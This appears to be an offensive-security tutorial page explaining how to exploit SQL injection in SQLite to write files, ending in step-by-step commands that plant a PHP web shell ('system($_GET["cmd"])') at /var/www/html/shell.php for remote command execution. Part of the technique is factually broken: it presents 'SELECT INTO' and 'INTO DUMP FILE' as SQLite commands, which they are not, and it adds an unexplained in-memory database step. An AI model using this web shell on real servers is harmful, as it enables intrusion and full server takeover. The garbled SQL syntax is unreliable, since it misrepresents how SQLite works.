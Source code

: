 ```yaml
---
title: Exploiting SQLite for File Writing via SQL Injection
description: Learn to manipulate SQLite for unauthorized file writing, enabling remote
  code execution through SQL injection techniques.
keywords:
- SQLite
- file writing
- SQL injection
- remote code execution
- database security
- ATTACH command
- SELECT INTO
- exploiting vulnerabilities
---
```


# SQLite Write File

## Context

This article will teach how to exploit SQLite to write files via SQL injection. It assumes knowledge in areas such as database file structure, SQL query execution, file system permissions, and general manipulation tactics within SQLite databases. This technique leverages the ability of SQLite to interact with the file system, presenting a significant risk when SQL injection vulnerabilities are present.

## Theory

### SQLite File Write Mechanisms

SQLite allows writing to files using specific SQL commands, notably `ATTACH` and `SELECT INTO`. These commands enable direct interactions with the file system from within SQL queries, which can be exploited through vulnerabilities such as SQL injection. This capability can be manipulated to write files that may contain arbitrary instructions.

SQLite can be instructed to write data into specific files, and when this is combined with the ability to execute SQL code via injection, attackers can create or modify files that lead to further system compromise.

### Exploiting SQLite for File Writing

The attack sequence begins with SQL injection to inject commands that attach a target database file. By creating a new table within this attached database, an attacker can hold the payload data temporarily. The payload can be any form of instructions, including scripts. For instance, an attacker can write PHP code that allows execution of commands passed via web requests.

After populating the table with the malicious payload, the attacker executes an `SELECT INTO` command to dump this data into a defined file path, effectively writing their code into the server's accessible directories.

### Security Implications of SQLite File Writing

Unauthorized file writes pose a substantial threat, potentially leading to remote code execution or data corruption. This occurs because applications often operate under the assumption that database queries are inherently safe and do not need stringent validation, especially concerning output paths in databases like SQLite.

The ability to write files can lead to persistent web shells or unauthorized modification of application files, resulting in full control over an application environment if left unchecked.

## Practice

### SQLite Write File via SQL Injection

#### Steps

- Begin by opening SQLite in memory mode to prepare for file operations:

    ```bash
    sqlite3 'file:exploit.db?mode=memory&cache=shared'
    ```

- Attach a new database file where the payload will be written:

    ```bash
    ATTACH DATABASE '/var/www/html/shell.php' AS shell;
    ```

- Create a table in the attached database to hold the payload:

    ```bash
    CREATE TABLE shell.payload(data TEXT);
    ```

- Insert the PHP code into the table to enable command execution:

    ```bash
    INSERT INTO shell.payload(data) VALUES('<?php system($_GET["cmd"]); ?>');
    ```

- Dump the table content into a PHP file on the server:

    ```bash
    SELECT data FROM shell.payload INTO DUMP FILE '/var/www/html/shell.php';
    ```

By carefully executing these commands, an attacker creates a PHP file on the server. This file enables remote code execution through crafted web requests, allowing the execution of arbitrary shell commands on the server environment.

## Tools

- **sqlite3**

This article demonstrates the significant risk posed by SQLite's file manipulation capabilities when SQL injection vulnerabilities exist. Understanding how these operations are conducted can fortify assessments and mitigations in infrastructures reliant on SQLite databases.